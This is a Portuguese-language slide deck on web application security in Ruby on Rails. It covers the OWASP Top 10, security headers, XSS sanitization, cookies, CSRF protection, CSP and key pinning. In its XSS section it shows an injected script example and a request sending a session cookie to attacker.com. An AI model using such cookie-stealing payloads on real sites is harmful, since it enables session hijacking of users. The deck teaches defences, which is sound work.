





% Sopa de letrinhas
% Segurança de aplicações web
% Jonhnny Weslley - @jweslley

## whoami

- Jonhnny Weslley
- @jweslley
- [http://www.jonhnnyweslley.net]()


## Esclarecimento

# Roteiro

## Roteiro

- Top 10 vunerabilidades segundo OWASP
    - [Open Web Application Security Project - https://www.owasp.org](https://www.owasp.org/)

## Roteiro

### Top 10 vunerabilidades segundo OWASP

1. Injection
    - SQL Injection, XSS, CSS Injection, ...
2. Sessions and Cookies
3. XSS (Cross-Site Scripting)
4. Authorization
5. Security Misconfiguration
6. Sensitive Data Transmission
7. Missing Function Level Access Control
8. Cross-Site Request Forgery (CSRF)
9. Using Components with Known Vulnerabilities
10. Unvalidated Redirects and Forwards

# Ruby On Rails

## Ruby On


## Ruby On Rails

- [The official Ruby on Rails security guide](http://guides.rubyonrails.org/security.html)
- Bons valores padrões

##



##



## Default headers

```
config.action_dispatch.default_headers = {
  'X-Frame-Options' => 'SAMEORIGIN',
  'X-XSS-Protection' => '1; mode=block',
  'X-Content-Type-Options' => 'nosniff'
}
```

## X-Frame-Options

- Previne Clickjacking
- Valores possiveis:
     - SAMEORIGIN
     - DENY
     - ALLOW-FROM https://example.com

- [Exemplo](https://www.troyhunt.com/clickjack-attack-hidden-threat-right-in/)

## X-XSS-Protection

## Cross-Site Scripting (XSS)

## Confiar no conteudo fornecido pelo usuario?

##


##


Conteudo malicioso:

```
<script>document.write('');</script>
```


Servidor do mal:

```
GET http://www.attacker.com/_app_session=836c1c25278e5b321d6bea4f19cb57e2
```

## Contra-medidas

- [Sanitizacao de dados](http://api.rubyonrails.org/classes/ActionView/Helpers/SanitizeHelper.html)
    - `strip_tags`, `strip_links`, `sanitize`


```
strip_tags("some<<b>script>alert('hello')<</b>/script>")
```

```
strip_links('Please e-mail me at <a href="mailto:me@email.com">me@email.com</a>.')
```

```
tags = %w(a acronym b strong i em li ul ol h1 h2 h3 h4 h5 h6 blockquote br cite sub sup ins p)
s = sanitize(user_input, tags: tags, attributes: %w(href title))
```

## Cookies

- Como funciona HTTP?
- Permite identificar usuario.
- Propriedades
    - HTTP-only
    - Secure

## Cookies

```
<script>document.write('');</script>
```

## Cookies



## Cookies on Rails

- Criptografados
- HTTP-only
- Use SSL e `force_ssl`


## Cross-Site Request Forgery (CSRF)

##


## Ruby On Rails

app/controllers/application_controller.rb

```
class ApplicationController < ActionController::Base
  protect_from_forgery with: :exception
end
```

## Content Security Policy (CSP)

- Define quais recursos podem ser baixados, carregados e/ou executados.
- Bastante efetivo para reduzir vetores de ataques XSS.

```
Content-Security-Policy: default-src 'self';
```

##



## GitHub

- default-src 'none';
- base-uri 'self';
- connect-src 'self' uploads.github.com status.github.com api.github.com www.google-analytics.com github-cloud.s3.amazonaws.com wss://live.github.com;
- script-src assets-cdn.github.com;
- style-src 'unsafe-inline' assets-cdn.github.com
- font-src assets-cdn.github.com;
- form-action 'self' github.com gist.github.com;
- frame-ancestors 'none';
- frame-src render.githubusercontent.com;
- img-src 'self' data: assets-cdn.github.com identicons.github.com ...
- media-src 'none'; object-src assets-cdn.github.com;
- plugin-types application/x-shockwave-flash;

## Facilitando

- Usar gem [secureheaders](https://github.com/twitter/secureheaders)

```
SecureHeaders::Configuration.default do |config|
  config.csp = {
    report_only: Rails.env.production?,
    preserve_schemes: true, # default: false.
    default_src: %w(*),
    script_src: %w('self' https://ajax.googleapis.com https://www.google-analytics.com),
    connect_src: %w('self'),
    style_src: %w('self' 'unsafe-inline'),
    report_uri: ["/csp_report?report_only=#{Rails.env.production?}"]
  }
end
```

## HTTP Public Key Pinning (HPKP)

- Mecanismo que previne ataques man-in-the-middle.

```
Public-Key-Pins:
  pin-sha256="Q0ig6URMeMsmXgWNXolEtNhPlmK9Jtslf4k0pEPHAWE=";
  pin-sha256="F5OSegYUVJeJrc4vjzT38LZtDzrjo7hNIewV27pPrcc=";
  pin-sha256="p1Uk2ryJ7QmI5/zIzFmdzme0X+2nvXG5bHwR88A5ZjA=";
  max-age=31536000; includeSubDomains
```

## HTTP Public Key Pinning (HPKP)




## Resumindo

- Use SSL
- Esteja ciente dos vetores de ataques
- [Não existe solução bala-de-prata](http://blog.codeclimate.com/blog/2013/03/27/rails-insecure-defaults/)


# Obrigado!

## Referências

- [Open Web Application Security Project (OWASP)](https://www.owasp.org/)
- [OWASP Top Ten Cheat Sheet](https://www.owasp.org/index.php/OWASP_Top_Ten_Cheat_Sheet)
- [The official Ruby on Rails security guide](http://guides.rubyonrails.org/security.html)
- [Ruby on Rails Security Project](https://rorsecurity.info/)
- [Rails SQL Injection](http://rails-sqli.org/)
- [Rails' Insecure Defaults](http://blog.codeclimate.com/blog/2013/03/27/rails-insecure-defaults/)
- [A Gentle Introduction to Cross-Site Scripting (XSS)](http://bughunting.guide/a-gentle-introduction-to-cross-site-scripting-xss/)
- [How to Get Started with a Content Security Policy](https://blog.codeship.com/how-to-get-started-with-a-content-security-policy/)
- [Certificate and Public Key Pinning](https://www.owasp.org/index.php/Certificate_and_Public_Key_Pinning)

## Sopa de letrinhas

### Segurança de aplicações web

- Software Freedom Day 2016 - Teresina
- Jonhnny Weslley
- @jweslley
- [http://jweslley.github.io/talks/sfd-2016-teresina-seguranca]()
